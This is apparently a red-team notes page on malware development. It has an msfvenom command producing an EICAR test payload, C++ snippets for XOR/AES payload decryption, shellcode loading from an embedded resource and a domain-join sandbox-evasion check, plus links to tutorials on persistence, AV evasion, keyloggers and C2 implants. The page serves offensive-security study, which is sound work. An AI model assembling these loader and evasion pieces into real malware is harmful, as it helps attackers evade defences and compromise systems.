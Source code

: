 # Malware Development

- [https://threadreaderapp.com/thread/1520676600681209858.html](https://threadreaderapp.com/thread/1520676600681209858.html)

[EIKAR](https://ru.wikipedia.org/wiki/EICAR-Test-File):

```
$ msfvenom -p windows/messagebox TITLE="EICAR" TEXT="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*" -f raw -o eikar.bin
```




## Code Snippets



### C++

XOR encryption:

```cpp
void XOR(char* data, size_t data_len) {
    const char key[] = "abcdefghjiklmnopqrstuvwxyz";

    int j = 0;
    for (int i = 0; i < data_len; i++) {
        if (j == sizeof(key) - 1) j = 0;
        data[i] = data[i] ^ key[j];
        j++;
    }
}
```

AES encryption:

```cpp
// Credit: Sektor7 RTO Malware Essential Course
int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) return -1;
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) return -1;
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) return -1;
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) return -1;
    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&payload_len)) return -1;

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}
```

Invoke the shellcode [from an embed resource](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources):

```cpp
HRSRC scResource = FindResource(NULL, MAKEINTRESOURCE(IDR_RESOURCE_BIN1), "RESOURCE_BIN");
DWORD shellcodeSize = SizeofResource(NULL, scResource);
HGLOBAL scResourceData = LoadResource(NULL, scResource);

unsigned char* shellcode;
shellcode = (unsigned char*)malloc(shellcodeSize);

memcpy(shellcode, scResourceData, shellcodeSize);
```

Check if a machine a domain-joined (sandbox evasion):

{% code title="is_domain_joined.py" %}
```cpp
// cl.exe is_domain_joined.cpp netapi32.lib
#include <Windows.h>
#include <LM.h>
#include <iostream>

BOOL IsDomainJoined() {
	auto joined = false;
	LPWSTR lpNameBuffer = nullptr;
	NETSETUP_JOIN_STATUS joinStatus = NETSETUP_JOIN_STATUS::NetSetupUnknownStatus;

	NET_API_STATUS status = NetGetJoinInformation(nullptr, &lpNameBuffer, &joinStatus);
	if (status == NERR_Success)
		joined = joinStatus == NETSETUP_JOIN_STATUS::NetSetupDomainName;

	if (lpNameBuffer)
		NetApiBufferFree(lpNameBuffer);

	return joined;
}

int main()
{
    std::cout << (!IsDomainJoined() ? "No dynamic analysis 4 u" : "Hack the Planet!") << std::endl;
}
```
{% endcode %}




## Blog Series



### @0xPat

- [Malware development part 1 - basics](https://0xpat.github.io/Malware_development_part_1/)
- [Malware development part 2 - anti dynamic analysis & sandboxes](https://0xpat.github.io/Malware_development_part_2/)
- [Malware development part 3 - anti-debugging](https://0xpat.github.io/Malware_development_part_3/)
- [Malware development part 4 - anti static analysis tricks](https://0xpat.github.io/Malware_development_part_4/)
- [Malware development part 5 - tips & tricks](https://0xpat.github.io/Malware_development_part_5/)
- [Malware development part 6 - advanced obfuscation with LLVM and template metaprogramming](https://0xpat.github.io/Malware_development_part_6/)
- [Malware development part 7 - Secure Desktop keylogger](https://0xpat.github.io/Malware_development_part_7/)
- [Malware development part 8 - COFF injection and in-memory execution](https://0xpat.github.io/Malware_development_part_8/)
- [Malware development part 9 - hosting CLR and managed code injection](https://0xpat.github.io/Malware_development_part_9/)



### @cocomelonc

- [Malware development: persistence - part 1. Registry run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
- [Malware development: persistence - part 2. Screensaver hijack](https://cocomelonc.github.io/tutorial/2022/04/26/malware-pers-2.html)
- [Malware development: persistence - part 3. COM DLL hijack](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)
- [Malware development: persistence - part 4. Windows services](https://cocomelonc.github.io/tutorial/2022/05/09/malware-pers-4.html)
- [Malware development: persistence - part 5. AppInit_DLLs](https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html)
- [Malware development: persistence - part 6. Windows netsh helper DLL](https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html)
- [Malware AV evasion: part 7. Disable Windows Defender](https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html)



### @preemptdev

- [Maelstrom: An Introduction](https://pre.empt.dev/posts/maelstrom-an-introduction/)
- [Maelstrom: The C2 Architecture](https://pre.empt.dev/posts/maelstrom-arch-episode-1/)
- [Maelstrom: Building the Team Server](https://pre.empt.dev/posts/maelstrom-arch-episode-2/)
- [Maelstrom: Writing a C2 Implant](https://pre.empt.dev/posts/maelstrom-the-implant/)
- [Maelstrom: EDR Kernel Callbacks, Hooks, and Call Stacks](https://pre.empt.dev/posts/maelstrom-edr-kernel-callbacks-hooks-and-callstacks/)
- [Maelstrom: Working with AMSI and ETW for Red and Blue](https://pre.empt.dev/posts/maelstrom-etw-amsi/)



### @chvancooten

- [[PDF] Malware Development for Dummies (Cas van Cooten)](https://github.com/chvancooten/maldev-for-dummies/blob/main/Slides/Malware%20Development%20for%20Dummies%20-%20Hack%20in%20Paris%2030-06-2022%20%26%2001-07-2022.pdf)
- [https://github.com/chvancooten/maldev-for-dummies](https://github.com/chvancooten/maldev-for-dummies)
